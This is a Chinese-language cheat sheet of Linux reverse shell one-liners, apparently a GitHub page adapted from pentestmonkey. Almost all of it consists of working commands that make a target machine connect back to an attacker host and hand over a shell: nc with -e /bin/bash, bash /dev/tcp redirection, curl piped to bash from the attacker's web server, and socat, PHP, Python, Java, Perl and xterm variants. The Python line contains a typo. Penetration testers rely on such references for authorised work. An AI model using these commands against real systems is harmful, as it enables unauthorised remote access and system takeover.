 # linux 反弹shell

## 原因：

```
1.目标机器的防火墙受限，目标机器只能发送信息，不能接收信息
2.要连接的端口被占用
3.目标在局域网，或者IP在变化，无法直接连接
4.目标机器所处环境未知
```

## 原理：

```
攻击者，在攻击机器上监听端口，目标机器上去，连接攻击机器
```

## 反弹sell

### nc

```shell
攻击机器 监听端口 nc 端口
目标机器 nc 攻击机器ip 端口 -e /bin/bash

攻击机器 nc -lvnp 2333
目标机器 nc 192.168.80.162:2333 -e /bin/bash
```

### bash

```bash
bash -i >& /dev/tcp/攻击机器ip/攻击机器端口 0>&1

攻击机器 nc -lvnp 2333
目标机器 bash -i >& /dev/tcp/192.168.80.162/2333 0>&1
```

### web服务

```shell
攻击机器开启http服务 根目录写入文件 内容位 bash -i >& /dev/tcp/攻击机器ip/攻击机器端口 0>&1   然后监听端口

目标机器访问 攻击机器ip ： curl 攻击机器ip | bash
```

### socat

```shell
socat tcp-connect :攻击机器ip:端口  exec: 'bash li',pty,stderr,setsid,sigint,sane
```

### php

此代码假定 TCP 连接使用文件描述符 3。这适用于我的测试系统。如果不起作用，请尝试 4、5、6...

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### python

这是在 Linux / Python 2.7 下测试的： 如果使用python3，用python3 -c ….. 就行

```python
python -c "import os,socket,subprocess;s=socket.socket
(socket.AF_INET,socket.SOCK_STRAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

python3交互式shell
python3 -c 'import pty; pty.spawn("/bin/bash")' 
```

### java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### PERL

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton( $i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");} ;'

```

### xterm

最简单的反向 shell 形式之一是 xterm 会话。以下命令应在服务器上运行。它将尝试在 TCP 端口 6001 上连接回您 (10.0.0.1)。

```
xterm -display 10.0.0.1:1
```

捕获传入的 xterm，请启动 X-Server（：1 - 侦听 TCP 端口 6001）。一种方法是使用 Xnest（在您的系统上运行）：

```
Xnest :1
```

您需要授权目标连接到您（命令也在您的主机上运行）：

```
xhost +targetip
```

from :

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
